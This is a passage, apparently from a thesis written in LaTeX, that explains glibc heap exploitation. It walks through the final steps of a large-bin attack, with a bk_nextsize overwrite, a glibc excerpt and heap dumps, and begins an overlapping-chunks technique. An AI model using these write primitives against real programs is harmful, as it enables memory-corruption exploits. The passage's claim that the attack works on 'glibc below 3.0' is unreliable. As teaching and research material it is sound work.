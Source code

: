 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\begin{document}
In the third step, we freed the smaller chunk. Now we have one chunk inside the large bin and one chunk in the unsorted bin.

\begin{lstlisting}[frame=tlrb]

unsorted\_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large\_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)

 \end{lstlisting}
 
The next step is to put the target address - 0x20 in the p1->bk\_nextsize . As we mentioned before, Just large bins chunk chunks use this pointer, they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
 
The last step is to allocate a bigger chunk, so, p2 will move to a larger chunk. When p2 move to large chunk, the heap manager write the address of p2 inside p1->bk\_nextsize->fd\_nextsize as the code of \libc{} show:

\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
 \end{lstlisting}
 
This attack works on \libc{} below 3.0.

\section{Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory :

\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
	p2 = malloc(0x100 - 8);
	p3 = malloc(0x80 - 8);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
  [0x0000555555559210   33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33  3333333333333333]
 \end{lstlisting}
\end{document}
